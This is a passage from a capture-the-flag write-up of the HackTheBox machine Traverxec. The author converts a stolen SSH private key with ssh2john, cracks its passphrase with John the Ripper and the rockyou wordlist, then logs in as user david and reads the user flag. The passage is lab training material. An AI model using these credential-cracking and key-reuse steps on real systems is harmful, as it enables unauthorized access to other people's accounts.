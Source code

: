 There is an SSH key, it's time to crack the password (I use john for this):

```bash
┌──(user㉿KaliVM)-[/hackthebox/…/traverxec/home/david/.ssh]
└─$ ls
authorized_keys  id_rsa  id_rsa.pub
                                                  
┌──(user㉿KaliVM)-[/hackthebox/…/traverxec/home/david/.ssh]
└─$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_hash.txt
                                                        
┌──(user㉿KaliVM)-[/hackthebox/…/traverxec/home/david/.ssh]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:04 DONE (2021-09-12 14:54) 0.2016g/s 2891Kp/s 2891Kc/s 2891KC/s 
Session completed
                    
┌──(user㉿KaliVM)-[/hackthebox/…/traverxec/home/david/.ssh]
└─$ john --show id_rsa_hash.txt                                     
id_rsa:hunter

1 password hash cracked, 0 left
```

The password was cracked pretty fast, let's try to login with SSH:

```bash
┌──(user㉿KaliVM)-[/hackthebox/…/traverxec/home/david/.ssh]
└─$ ssh david@traverxec.htb -i id_rsa 
The authenticity of host 'traverxec.htb (10.10.10.165)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$whoami
david
```

### User Flag

---

With the active SSH session as user david, I can get the user flag:

```bash
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
7d**************************2f3d
```
